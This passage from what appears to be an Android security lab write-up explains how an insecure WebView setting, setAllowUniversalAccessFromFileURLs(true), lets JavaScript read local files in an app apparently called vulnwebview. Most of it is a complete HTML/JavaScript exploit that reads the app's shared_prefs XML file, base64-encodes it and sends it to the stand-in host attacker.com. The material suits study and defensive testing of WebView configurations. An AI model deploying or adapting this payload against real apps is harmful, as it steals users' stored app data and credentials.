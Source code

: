 <figure><img src="../.gitbook/assets/image (300).png" alt=""><figcaption></figcaption></figure>

The `setAllowUniversalAccessFromFileURLs(true)` setting allows JavaScript to read local files and exfiltrate them.

**Exploit JavaScript Code**:

```html
<!DOCTYPE html>
<html>
<head>
    <title>Exploit</title>
  <script>
    // Target local file to read (e.g., shared preferences file)
    var url = 'file:///data/data/com.tmh.vulnwebview/shared_prefs/MainActivity.xml';

    // Function to load and exfiltrate the file contents
    function load(url) {
        var xhr = new XMLHttpRequest(); // Create a new XMLHttpRequest object

        // Define the onreadystatechange event handler
        xhr.onreadystatechange = function() {
            if (xhr.readyState === 4) { // Check if the request is complete
                // Encode the file contents in Base64
                var base64Content = btoa(xhr.responseText);

                // Send the encoded content to the attacker's server
                fetch('https://attacker.com/?exfiltrated=' + base64Content)
                    .then(response => console.log('Data exfiltrated successfully'))
                    .catch(error => console.error('Exfiltration failed:', error));
            }
        };

        // Open and send the GET request
        xhr.open('GET', url, true);
        xhr.send('');
    }

    // Trigger the exploit
    load(url);
  </script>
```
